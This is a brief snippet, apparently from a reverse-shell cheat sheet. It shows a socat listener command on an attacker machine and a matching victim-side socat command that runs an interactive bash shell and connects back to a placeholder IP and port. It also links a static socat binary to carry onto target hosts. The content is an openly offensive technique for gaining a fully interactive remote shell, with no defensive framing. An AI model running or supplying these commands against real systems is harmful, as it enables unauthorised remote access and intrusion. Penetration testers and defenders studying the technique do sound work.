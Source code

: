```powershell
user@attackker $ socat file:`tty`,raw,echo=0 TCP-L:4242

user@victim $ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<port>
```
Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)